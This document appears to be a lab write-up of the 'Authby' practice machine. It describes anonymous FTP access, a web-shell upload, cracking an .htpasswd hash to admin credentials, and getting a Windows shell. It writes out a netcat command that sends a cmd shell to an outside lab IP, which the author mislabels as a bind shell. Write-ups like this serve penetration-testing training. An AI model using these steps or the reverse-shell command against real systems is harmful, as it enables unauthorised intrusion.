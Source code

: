 # Authby

<figure><img src="../../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

After scanning for open ports, i saw that i had ftp anonymous with plenty of files, let's see if there are some interesting stuff, i did not find anything interesting accesible&#x20;

<figure><img src="../../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

But it does not work for the moment but i'm able to connect as admin:

<figure><img src="../../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

{% embed url="https://hackviser.com/tactics/pentesting/services/ftp#reverse-shell-over-website" %}

I'm able to upload a shell:

<figure><img src="../../../.gitbook/assets/image (17).png" alt=""><figcaption></figcaption></figure>

In the admin share we got .htpasswd file:

<figure><img src="../../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

and we're able to crack the hash to admin:elite

looking at the web service:

<figure><img src="../../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

and we are able to log in:&#x20;

<figure><img src="../../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

and i'm able to get a ping back:

<figure><img src="../../../.gitbook/assets/image (20).png" alt=""><figcaption></figcaption></figure>

but no persistent shell so i need to make a better work

so i download this:

{% embed url="https://gist.github.com/joswr1ght/22f40787de19d80d110b37fb79ac3985" %}

and we're able to pop a webshell:

<figure><img src="../../../.gitbook/assets/image (6) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I tried running reverse shell commands and php and C and powershell but it was not&#x20;

<figure><img src="../../../.gitbook/assets/image (7) (1) (1).png" alt=""><figcaption></figcaption></figure>

so i transfered nc.exe to the target and used it to make a bind shell:

<figure><img src="../../../.gitbook/assets/image (8) (1).png" alt=""><figcaption></figcaption></figure>

since it's windows i have to bind to a cmd shell:

```
nc.exe 192.168.49.54 1234 -e cmd
```

<figure><img src="../../../.gitbook/assets/image (9).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

